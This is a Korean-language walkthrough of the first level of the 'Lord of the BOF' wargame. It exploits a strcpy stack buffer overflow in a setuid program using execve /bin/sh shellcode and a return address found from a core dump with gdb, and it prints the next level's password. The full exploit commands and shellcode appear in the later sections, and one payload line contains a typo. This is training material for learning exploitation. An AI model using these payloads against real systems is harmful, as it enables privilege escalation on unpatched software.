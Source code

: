 1번 gate -> gremlin
===================

```  
id = 'gate'
pw = 'gate'
```

--------------------------------------------------------------
"ls" 명령어로 파일들 확인
```   
[gate@localhost gate]$ ls  
agremlin  gremlin.c  
```  

"cat gremlin.c"로 c파일 확인  
```  
[gate@localhost gate]$ cat gremlin.c
/*
	The Lord of the BOF : The Fellowship of the BOF
	- gremlin
	- simple BOF
*/

int main(int argc, char *argv[])
{
    char buffer[256];
    if(argc < 2){
        printf("argv error\n");
        exit(0);
    }
    strcpy(buffer, argv[1]);
    printf("%s\n", buffer);
}
[gate@localhost gate]$  
```  

인자는 무조건 2개이상 주어야 되고  
2번째 인자값을 buffer에 복사 buffer값을 출력하는 구도  

### strcpy함수의 취약점   
>(srtingcopy)strcpy함수는 strcpy(인자1, 인자2); 일때<br>
>인자1에 인자 2의 값을 복사해주는데 이떄 인자1의 크기에 상관없이<br>
>인자 2의 모든 값을 복사해서 인자1의 영역너머를 우리가 변조할 수 있게됨<br>  

### 인자 전달방법
>파일을 실행할때는 "./파일명"으로 실행  <br>
>여기에 인자를 포함해서 전달하려면 뒤에 인자로 넣을 것 을 추가<br>   
>파이썬으로 전달하려면? ex) ./gremlin `python -c 'print "A"*100'`
  

## 공략시작
우리가 쓸 쉘코드
```  
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\xb0\x01\xcd\x80"  
```
크기 = 25bytes

스택 프레임 구조   
>buffer(256) | SFP(4) | ret addr(4)  

260byte모두 덮고 속에다가 (nop)\x90이랑 쉘코드 25바이트를 넣고 ret add를 찾아서 마지막 4byte를 후루룩

### gremlin파일 접근
우선 gremlin파일은 
```
[gate@localhost gate]$ ls -l
total 16
-rwsr-sr-x    1 gremlin  gremlin     11987 Feb 26  2010 gremlin
-rw-rw-r--    1 gate     gate          272 Apr  7 21:42 gremlin.c
[gate@localhost gate]$ 
```
보이는 것과 같이 우리 다음레벨인 gremlin의 권한을 가지고있으므로 gdb를 쓸 수 없다.
  
    
디렉토리를 하나 만들고 그 속에다가 gremlin파일을 우리가 건드릴 수 있도록 복사를 해주자.
```
[gate@localhost gate]$ mkdir tmp
[gate@localhost gate]$ cp gremlin tmp
[gate@localhost gate]$ cd tmp 
[gate@localhost tmp]$ ls
gremlin
gate@localhost tmp]$
```
>tmp 디렉토리 생성후 cp명령어로 tmp디렉토리에 gremlin파일 복사 
  
 
  
### 페이로드
tmp파일 내에서 
./gremlin `python -c 'print "A"*260 + "\x90\x90\x90\x90"'`
을 넣어보자

```
[gate@localhost tmp]$ ./gremlin `python -c 'print "A"*260  + "\x90\x90\x90\x90"'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA 
Segmentation fault (core dumped)
[gate@localhost tmp]$ ls
core  gremlin                    
```
>core 파일이 생성되었다.


### 코어 파일 
먼저 해결책부터말하면
>core dumped가 되었을땐 core파일이 생길 것 이다.  
>그럼 그 코어 파일을 gdb로 연다음  
>메모리 뜯어서 ret addr 찾고  
>그 주소로 페이로드를 다시짜서 원본파일에 공격을 하면 성공이다.

```
[gate@localhost tmp]$ gdb -c core -q
Core was generated by `./gremlin AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'.
Program terminated with signal 11, Segmentation fault.
#0  0x90909090 in ?? ()
(gdb) 
```
  
> '-c'옵션을 꼭 주어서 gdb를 실행하자


```
(gdb)x/100x $esp
0xbffff9f0:	0xfb609090	0xbf00bfff	0xbffffa40	0x40013868
0xbffffa00:	0x00000002	0x08048380	0x00000000	0x080483a1
0xbffffa10:	0x08048430	0x00000002	0xbffffa34	0x080482e0
0xbffffa20:	0x080484bc	0x4000ae60	0xbffffa2c	0x40013e90
0xbffffa30:	0x00000002	0xbffffb3e	0xbffffb48	0x00000000
0xbffffa40:	0xbffffc57	0xbffffc6a	0xbffffc81	0xbffffca0
0xbffffa50:	0xbffffcc2	0xbffffccc	0xbffffe8f	0xbffffeae
0xbffffa60:	0xbffffec8	0xbffffedd	0xbffffef9	0xbfffff04
0xbffffa70:	0xbfffff1c	0xbfffff29	0xbfffff31	0xbfffff42
0xbffffa80:	0xbfffff4c	0xbfffff5a	0xbfffff6b	0xbfffff79
0xbffffa90:	0xbfffff84	0xbfffff94	0xbfffffd4	0xbfffffe0
0xbffffaa0:	0x00000000	0x00000003	0x08048034	0x00000004
0xbffffab0:	0x00000020	0x00000005	0x00000006	0x00000006
0xbffffac0:	0x00001000	0x00000007	0x40000000	0x00000008
0xbffffad0:	0x00000000	0x00000009	0x08048380	0x0000000b
0xbffffae0:	0x000001f4	0x0000000c	0x000001f4	0x0000000d
0xbffffaf0:	0x000001f4	0x0000000e	0x000001f4	0x00000010
0xbffffb00:	0x0f8bfbff	0x0000000f	0xbffffb39	0x00000000
0xbffffb10:	0x00000000	0x00000000	0x00000000	0x00000000
0xbffffb20:	0x00000000	0x00000000	0x00000000	0x00000000
0xbffffb30:	0x00000000	0x00000000	0x38366900	0x2f2e0036
0xbffffb40:	0x6d657267	0x006e696c	0x41414141	0x41414141
0xbffffb50:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffffb60:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffffb70:	0x41414141	0x41414141	0x41414141	0x41414141
[gate@localhost tmp]$
```
메모리 뜯어본 결과
>argv[1]에 넣었던 AAA~ 는 bffffb 40~50에서 시작되므로  
>널널히 bffffb50으로 ret addr을 맞쳐주자  
>(그 뒤로 실행되다가 쉘코드를 만나면 쉘코드가 실행될 것 이다.)  
  
```
[gate@localhost tmp]$ ./gremlin `python -c 'print "A"*100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"  + ""x90" * 135 + "\x50\xfb\xff\xbf"'             `
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA1󿿐h//shh/bin⏓ኂ°
                                                                                                                   ̀P
bash$
```
쉘코드 넣고 주소만 \x50\xfb\xff\xbf로 바꿔서 실행하니 bash가 잘 실행됬다.  
이제 원본파일에다가 공격을 하고 다음 level의 비밀번호를 알아내자.
```
[gate@localhost tmp]$ cd
[gate@localhost gate]$ ./gremlin `python -c 'print "A"*100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"  + "\x90" * 135 + "\x50\xfb\xff\xbf"'             `
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA1󿿐h//shh/bin⏓ኂ°
                                                                                                                   ̀P
bash$ my-pass
euid = 501
hello bof world
```

----
### gremlin
```
id = 'gremlin'
pw = 'hello bof world'
```

 

